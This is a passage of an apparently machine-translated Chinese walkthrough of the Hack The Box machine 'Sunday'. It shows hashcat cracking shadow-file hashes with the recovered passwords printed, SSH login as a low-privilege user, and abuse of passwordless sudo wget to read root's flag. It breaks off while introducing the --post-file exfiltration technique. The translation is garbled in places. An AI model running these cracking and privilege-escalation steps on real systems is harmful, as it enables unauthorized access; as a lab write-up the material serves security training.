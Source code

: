     

### 打破与哈希猫

拉回影子.backup和 passwd 文件，并在使用取消阴影创建无阴影文件后，john 或 hashcat 可以中断这两个哈希值。以下是哈希卡输出的外观（清除状态消息）：

    $ hashcat -m 7400 sunday.hashes /usr/share/wordlists/rockyou.txt --force
    ...[snip]...
    $5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:sunday
    $5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
    ...[snip]...
    

### 用户外壳 - SSH 作为 sammy / 用户.txt

有了萨米的密码，现在可以以萨米的身份ssh进来：

    root@kali:~/hackthebox/sunday-10.10.10.76# ssh -p 22022 sammy@10.10.10.76
    Password:
    Last login: Sat May  5 20:06:34 2018 from 10.10.14.112
    Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
    sammy@sunday:~$
    

萨米有权访问用户.txt：

    sammy@sunday:~$ wc -c Desktop/user.txt
    33 Desktop/user.txt
    
    sammy@sunday:~$ cat Desktop/user.txt
    a3d94980...
    

## Privesc： sammy to root

### 列举

在枚举为 sammy 时，我看到 sammy 可以在没有密码的情况下进行验证（[无论是在 LinEnum.sh](https://github.com/rebootuser/LinEnum) 输出中还是在检查中）。`sudo -l`

### 6 使用方法生根

我们可以从这里做很多事情。阅读 [wget 手册页](https://linux.die.net/man/1/wget)提供了丰富的想法。我将展示六个示例。

#### –输入文件

获取标志的最简单方法是利用 wget 上的 或 标志。此标志允许您提供包含要访问的 URL 的文件。当它读取哈希时，字符串将无法作为URL处理，并将在错误消息中告诉我们，并带有标志：`--input-file``-i`

    sammy@sunday:~$ sudo wget --input-file /root/root.txt
    /root/root.txt: Invalid URL fb40fab6...: Unsupported scheme
    No URLs found in /root/root.txt.
    

#### 邮政旗帜

破坏标志的第二种方法是让 wget 使用 将文件发布回给我们。不幸的是，蟒蛇简单HTTP服务器不支持开机自检请求：`--post-file`
